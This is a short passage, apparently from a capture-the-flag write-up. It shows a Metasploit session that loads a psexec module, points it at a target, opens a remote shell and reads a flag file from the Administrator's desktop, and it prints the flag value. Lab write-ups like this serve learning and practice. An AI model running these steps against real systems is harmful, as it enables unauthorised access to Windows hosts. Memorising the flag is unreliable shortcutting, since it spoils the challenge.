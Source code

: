 To exploit it

```bash
#Metasploit (i already tried eternal blue on this machine and it did not work)
msfconsole -q
search psexec
use 0
set rhosts $ip
set lhost $ip
run
shell
type C:\Users\Administrator\Desktop\Skills-flag.txt 
One-H0st-Down!
```
